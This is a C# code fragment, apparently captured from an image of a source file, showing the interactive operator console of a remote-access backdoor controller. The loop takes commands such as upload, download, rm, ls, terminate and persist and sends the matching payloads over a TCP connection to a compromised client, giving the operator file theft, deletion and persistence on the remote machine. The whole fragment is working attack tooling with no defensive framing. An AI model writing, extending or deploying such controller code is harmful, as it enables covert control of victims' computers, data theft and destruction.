 		ConsoleColor current = Console.ForegroundColor;
		while(true) {
			try{
				Console.Write(id + "> ");
				Console.ForegroundColor = ConsoleColor.Yellow;
				System.Text.RegularExpressions.Regex myRegex = new System.Text.RegularExpressions.Regex("(?<cmd>^\"[^\"]*\"|\\S*) *(?<prm>.*)?");
				System.Text.RegularExpressions.Match m = myRegex.Match(Console.ReadLine());
				Console.ForegroundColor = ConsoleColor.Green;
				if(m.Success) {
					if(m.Groups[1].Value == "cd") {
						Console.WriteLine(System.Text.ASCIIEncoding.ASCII.GetString(sendPayload(clientStream, String.Format(Payload.PAYLOAD_CD, m.Groups[2].Value.Replace("\\", "\\\\")))));
					} else if(m.Groups[1].Value == "exit" || m.Groups[1].Value == "quit") {
						Console.WriteLine(System.Text.ASCIIEncoding.ASCII.GetString(sendPayload(clientStream, Payload.PAYLOAD_EXIT)));
						Console.ForegroundColor = current;
						break;
					} else if(m.Groups[1].Value == "upload") {
						System.Collections.Generic.Dictionary<string, string> parameters = getParameters(m.Groups[2].Value);
						Console.WriteLine(System.Text.ASCIIEncoding.ASCII.GetString(sendPayload(clientStream, String.Format(Payload.PAYLOAD_UPLOAD, parameters["o"].Replace("\\", "\\\\"), Convert.ToBase64String(File.ReadAllBytes(parameters["i"]))))));
					} else if(m.Groups[1].Value == "download") {
						System.Collections.Generic.Dictionary<string, string> parameters = getParameters(m.Groups[2].Value);
						File.WriteAllBytes(parameters["o"], sendPayload(clientStream, String.Format(Payload.PAYLOAD_DOWNLOAD, parameters["i"].Replace("\\", "\\\\"))));
						Console.WriteLine("File " + parameters["i"] + " Downloaded to " + parameters["o"]);
					} else if(m.Groups[1].Value == "pwd") {
						Console.WriteLine(System.Text.ASCIIEncoding.ASCII.GetString(sendPayload(clientStream, Payload.PAYLOAD_PWD)));
					} else if(m.Groups[1].Value == "rm") {
						Console.WriteLine(System.Text.ASCIIEncoding.ASCII.GetString(sendPayload(clientStream, String.Format(Payload.PAYLOAD_DELETE, m.Groups[2].Value.Replace("\\", "\\\\")))));
					} else if(m.Groups[1].Value == "ls") {
						Console.ForegroundColor = ConsoleColor.Blue;
						Console.WriteLine(System.Text.ASCIIEncoding.ASCII.GetString(sendPayload(clientStream, Payload.PAYLOAD_LIST_DIR)));
						Console.ForegroundColor = ConsoleColor.Green;
						Console.WriteLine(System.Text.ASCIIEncoding.ASCII.GetString(sendPayload(clientStream, Payload.PAYLOAD_LS)));
					} else if(m.Groups[1].Value == "terminate") {
						Console.WriteLine(System.Text.ASCIIEncoding.ASCII.GetString(sendPayload(clientStream, Payload.PAYLOAD_TERMINATE)));
						Console.ForegroundColor = current;
						break;
					} else if(m.Groups[1].Value == "persist") {
						System.Collections.Generic.Dictionary<string, string> parameters = getParameters(m.Groups[2].Value);
						Console.WriteLine(System.Text.ASCIIEncoding.ASCII.GetString(sendPayload(clientStream, String.Format(Payload.PAYLOAD_PERSIST, parameters["n"]))));
					}
				}
			}catch(Exception exception){
				Console.ForegroundColor = ConsoleColor.Red;
				Console.WriteLine(exception);
			}
			Console.ForegroundColor = current;
		}
		tcpClient.Close();
		connected = false;
		clientNames[id] = getCurrentTime();